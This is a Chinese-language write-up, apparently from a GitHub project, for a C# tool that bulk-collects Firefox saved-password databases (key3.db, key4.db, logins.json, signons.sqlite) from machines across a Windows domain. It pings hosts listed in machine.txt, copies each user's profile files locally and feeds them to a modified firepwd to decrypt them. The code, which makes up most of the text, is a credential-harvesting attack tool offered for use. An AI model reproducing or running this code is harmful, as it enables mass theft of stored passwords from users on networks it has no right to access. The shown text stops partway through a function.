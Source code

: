 > Firefox 版本 &lt;32 (key3.db, signons.sqlite)  
> Firefox 版本 &gt;=32 (key3.db, logins.json)  
> Firefox 版本 &gt;=58.0.2 (key4.db, logins.json)  
> Firefox 版本 &gt;=75.0 (sha1 pbkdf2 sha256 aes256 cbc used by key4.db, logins.json)

0x01 前置
=======

firefox配置记录在`%APPDATA%\Mozilla\Firefox\Profiles\xxxxxxxx.default\`，其中X为8位随机符，后面有可能跟了一些字符。

在域内批量导出firefox浏览器配置文件，然后改了下firepwd自动化读取文件。

firefox版本小于32没写，如果需要可以自行在代码里面添加如下代码。

```php
string firefox_signons = "signons.sqlite";
string firefox_signons_path = FindFile(ProfilePathss, firefox_signons);
if (firefox_signons_path != "")
{
    Console.ForegroundColor = ConsoleColor.Green;
    Console.WriteLine("[+]" + firefox_signons_path);
    Console.WriteLine("[*]version > 58.0.2");
    Console.ForegroundColor = ConsoleColor.White;
    //copy file
    string signons_file_path_cuurent = UserFolder + "\\" + firefox_signons;
    StreamWriter signons_file_cuurent = File.CreateText(signons_file_path_cuurent);
    signons_file_cuurent.Close();
    bool isrewrite = true;
    File.Copy(firefox_signons_path, signons_file_path_cuurent, isrewrite);
}
```

0x02 批量判断
=========

首先读取machine.txt然后判断是否存活接着批量判断是否存在配置文件，然后在本地创建机器名用户名以及对应的配置文件。

1.存活判断(面向百度)

```php
public static bool IsMachineUp(string hostName)
{
    bool retVal = false;
    try
    {
        Ping pingSender = new Ping();
        PingOptions options = new PingOptions();
        // Use the default Ttl value which is 128,
        // but change the fragmentation behavior.
        options.DontFragment = true;
        // Create a buffer of 32 bytes of data to be transmitted.
        string data = "aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa";
        byte[] buffer = Encoding.ASCII.GetBytes(data);
        int timeout = 800;

        PingReply reply = pingSender.Send(hostName, timeout, buffer, options);
        if (reply.Status == IPStatus.Success)
        {
            retVal = true;
        }
    }
    catch (Exception ex)
    {
        retVal = false;
        //Console.ForegroundColor = ConsoleColor.Red;
        //Console.WriteLine("[-]" + ex.Message);
        //Console.ForegroundColor = ConsoleColor.White;
    }
```